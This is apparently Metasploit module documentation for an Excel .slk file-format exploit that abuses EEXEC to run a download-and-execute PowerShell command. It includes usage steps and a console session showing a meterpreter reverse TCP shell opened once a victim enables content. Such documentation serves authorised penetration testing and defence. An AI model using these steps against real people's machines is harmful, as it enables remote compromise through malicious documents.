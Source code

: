## Introduction

The .slk file format used by Microsoft Excel has the ability to execute local commands via the `EEXEC(cmd)` function. 
This module takes advantage of this 'feature' to run a download-and-execute powershell command in order to spawn a session
on the target.

## Vulnerable Application

  Microsoft Excel

## Verification Steps

  Example steps in this format (is also in the PR):

1. Start `msfconsole`
2. `use exploit/windows/fileformat/office_excel_slk`
3. `set LHOST 192.168.x.x`
4. `run`
5. Execute generated file and press 'Enable Content' in Excel

## Options

  **FILENAME**

  The name of the generated .slk file.

## Scenarios

  ```
  msf > use exploit/windows/fileformat/office_excel_slk
  msf exploit(office_excel_slk) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf exploit(office_excel_slk) > set lhost 192.168.146.1
  lhost => 192.168.146.1
  msf exploit(office_excel_slk) > set srvhost 192.168.146.1
  srvhost => 192.168.146.1
  msf exploit(office_excel_slk) > run
  [*] Exploit running as background job.

  [*] Started reverse TCP handler on 192.168.146.1:4444
  [+] msf.doc stored at /Users/carter/.msf4/local/msf.slk
  [*] Using URL: http://192.168.146.1:8080/default.hta
  [*] Server started.
  ```
  Once the victim opens the file and clicks 'Enable Content' a session should spawn:
  ```
  [*] Sending stage (957487 bytes) to 192.168.146.145
  [*] Meterpreter session 1 opened (192.168.146.1:4444 -> 192.168.146.145:50165) at 2019-01-13 16:00:49 -0500
  ```
